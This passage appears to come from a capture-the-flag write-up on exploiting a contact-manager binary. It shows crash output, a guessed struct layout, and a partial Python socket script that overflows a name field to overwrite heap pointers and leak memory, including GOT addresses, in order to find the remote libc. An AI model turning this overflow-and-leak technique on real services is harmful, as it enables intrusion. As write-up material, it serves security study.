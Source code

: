 ```
4)Display contacts
5)Exit
>>> 4
Contacts:
    Name: BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
    Length 1111638594
    Phone #: 0
    Description: BLEH
```

So suppose the struct looked something like

```c
struct {
    char *phoneNumber;  // malloc'ed
    char *description;  // malloc'ed
    char name[64];
    int descriptionLength;
    int valid;
} info_t;
```

We can use this to leak information by overwriting the **next** struct's *phoneNumber* and *description*. We cannot use this to write anything, as the program will automatically call free() on the description. If it doesn't contain a valid heap address, the binary will crash. First, we'll abuse the leak to determine the remote libc version.

```python
from socket import *
import struct, telnetlib, re, sys, time

def readtil(delim):
    buf = b''
    while not delim in buf:
      buf += s.recv(1)
    return buf

def sendln(b):
    s.send(b + b'\n')

def sendbin(b):
    s.sendall(b)

def p(x):
    return struct.pack('<L', x & 0xffffffff)

def leak(x):
    print "leaking " + hex(x)
    global last_addr
    # edit contact 1 -> name to overflow pointers
    sendln('3')
    readtil('change? ')
    if last_addr == 0:
        sendln('BAR1')
    else:
        sendln('B'*63)
    
    readtil('>>> ')
    sendln('1')
    readtil('name:')
    #       name          length valid  char *description // char *phone==leak->malloc@got  
    sendln('B'*63+"\x00"+"BBBB"+p(0)+p(x)+p(x)+"BAR2")
    last_addr = x
    
    readtil('>>> ')
```